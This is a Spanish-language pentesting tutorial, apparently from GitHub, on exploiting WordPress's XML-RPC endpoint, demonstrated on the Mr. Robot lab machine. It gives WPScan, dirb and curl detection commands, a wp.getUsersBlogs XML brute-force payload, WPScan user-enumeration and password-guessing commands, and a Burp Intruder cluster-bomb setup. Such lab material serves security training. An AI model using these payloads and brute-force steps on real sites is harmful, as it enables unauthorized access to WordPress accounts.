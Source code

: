 ![image](https://github.com/user-attachments/assets/b90d616e-1b28-4531-b7ae-eb1192b11643)<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=D1F700&width=410&lines=Vulnerabilidad+XMLRPC+en+WordPress"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>¿Qué es el archivo XML-RPC.php?</ins></h3>

El archivo `xml-rpc.php` (Remote Procedure Call, o llamada a procedimiento remoto en XML) es un componente que permite interactuar de forma remota con un sitio web de WordPress mediante el protocolo XML-RPC, permitiendo así realizar diferentes operaciones. 

Entre estas funciones permite:

- **Publicación remota**: Permite a los usuarios publicar contenido en su sitio de WordPress desde aplicaciones externas.

- **Gestión de Contenidos**: Se pueden realizar tareas como editar y eliminar publicaciones, gestionar comentarios y categorías, entre otras.

- **Compatibilidad**: Facilita la integración con otros servicios web y aplicaciones que utilizan el protocolo XML-RPC.


<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/img/XML-RPC.png">
</p>

<h1 align="center"></h1>

</br>

### | Detectar y Explotar XML-RPC

En el siguiente ejemplo voy a utilizar la máquina <a href="https://github.com/R3LI4NT/ctf-retos/blob/main/2-%20Maquinas-Medium/Mr.Robot_1.md">Mr. Robot1</a> para mostrarles el método de detección y explotación de XML-RPC. Como experiencia personal, en entornos reales está vulnerabilidad suele ocurrir frecuentemente.

Por seguridad, siempre que descarguen una máquina de Vulnhub asegúrese de comprobar la salida del hash y compararla con el repositorio oficial. Esto garantizará la integridad del archivo.

```
Get-FileHash -Algorithm MD5 .\mrRobot.ova
```

![1](https://github.com/user-attachments/assets/8e858ad7-c3c3-4912-a2c3-5df728963817)

Una de las formas más fácil de saber si el archivo XML-RPC se encuentra disponible es haciendo uso de WPScan.
```
wpscan --url http://example.com
```

![2](https://github.com/user-attachments/assets/611ff604-2a43-4400-bb1f-415c7f1367b8)

O el método más simple, realizar un fuzzing pero aplicando un filtro con archivos "**.php**".
```
dirb http://example.com /usr/share/wordlists/dirb/common.txt -X '.php'
```

![3](https://github.com/user-attachments/assets/c489150c-fbd4-45cf-a20a-9270cb2aa53e)


Si accedemos al archivo del navegador podemos ver que solamente acepta peticiones a través del método POST.

![4](https://github.com/user-attachments/assets/3722b738-a792-417c-a798-4fbaf1b648b5)

Con el comando curl podemos enviar una petición mediante POST:
```
curl -X POST http://example.com/xmlrpc.php
```

![5](https://github.com/user-attachments/assets/032d29e7-cc90-443f-8594-35ca1275972c)

Soy un usuario que le gusta mucho manejar la terminal antes que cualquier interfaz gráfica, pero cuando se trata de aplicaciones web es indispensable usar Burp para estas pruebas.

![6](https://github.com/user-attachments/assets/58e75750-a8a9-4822-9973-fe1c51468b14)

Para aprovecharse de esta vulnerabilidad se tiene que jugar con las requests, la idea es mandar una petición para enumerar información del wordpress que hay por detrás. Es tan sencillo con hacer una búsqueda en google y acceder a algunos payloads. Por ejemplo: https://github.com/kh4sh3i/xmlrpc-exploit

Al invocar el método `system.listMethods` devuelve una lista de funcionalidades disponibles en el servidor XML-RPC.

![7](https://github.com/user-attachments/assets/e3ab59b9-72f7-49fd-9914-0995687f34c9)

Del lado del Response:

![8](https://github.com/user-attachments/assets/c3449532-2526-48c6-a0aa-1977bd8d89fa)

Una de las primeras funcionalidades que nos permite realizar un ataque de fuerza bruta contra los usuarios de WordPress es el uso del archivo `wp.getUsersBlogs`.

![9](https://github.com/user-attachments/assets/b54e1be9-598f-4cb8-bc89-0dedca901e4e)

El siguiente payload XML permite realizar un ataque de fuerza bruta, primero se le especifica el usuario y por útlimo la contraseña.

```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
 <param>
  <value>
   <string>admin</string>
  </value>
 </param>
 <param>
  <value>
   <string>password</string>
  </value>
 </param>
</params>
</methodCall>
```

![10](https://github.com/user-attachments/assets/f20ff35b-1a72-4b72-9899-e356a0162166)

Para enumerar los usuarios podemos hacer uso de WPScan o mandar la petición al Intruder y modificarla desde allí.

Con WPScan:
```
wpscan --url http://example.com --enumerate u
```

![11](https://github.com/user-attachments/assets/51041390-49af-419c-b91d-a26d1b9ce0bf)

No siempre se tiene suerte con la enumeración de usuarios en WPScan, pero en caso de encontrar alguno se podría probar fuerza bruta con los parámetros:
```
wpscan --url http://example.com --passwords /ruta/a/tu/wordlist.txt --usernames USUARIO
```

En el módulo Intruder nos ubicamos en `Positions`, limpiamos haciendo clíc en `Clear§`. Seleccionamos el usuario y le damos en `Add§`, lo mismo con la contraseña.

![12](https://github.com/user-attachments/assets/94cd1038-f966-4bff-9276-31dcdddccd25)

En el "tipo de ataque" seleccionamos modo Cluster bomb, este modo permite ir iterando en ambas posiciones del diccionario para probar todas las combinaciones.

![image](https://github.com/user-attachments/assets/32586b5b-eae2-49b5-ae1d-80b3d2b6db67)

![image](https://github.com/user-attachments/assets/81e9b131-e782-4fc0-8629-5e352ed6cb86)

Ya deberíamos contar con un diccionario propio o descargar uno. Por ejemplo, <a href="https://github.com/danielmiessler/SecLists">SecList</a> es un repositorio completo que contiene muchos diccionarios de usuarios, contraseñas, payloads, etc.


